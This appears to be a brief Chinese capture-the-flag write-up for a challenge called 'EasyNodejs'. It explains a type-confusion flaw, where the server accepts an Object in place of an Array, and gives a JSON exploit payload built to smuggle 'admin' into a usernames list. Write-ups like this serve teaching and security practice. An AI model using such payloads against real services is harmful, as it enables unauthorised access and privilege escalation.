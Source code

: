 # EasyNodejs
我把这个洞叫做类型混淆（Type Confuse)，即服务端没有检测传入的对象是否符合类型要求，比如说应该为Array结果传入的是Object等。
## Exp
exp较简单
```json
{ 
    "usernames": [
        {
            "length":0,
            "1":"admin"
        }
    ] 
}
```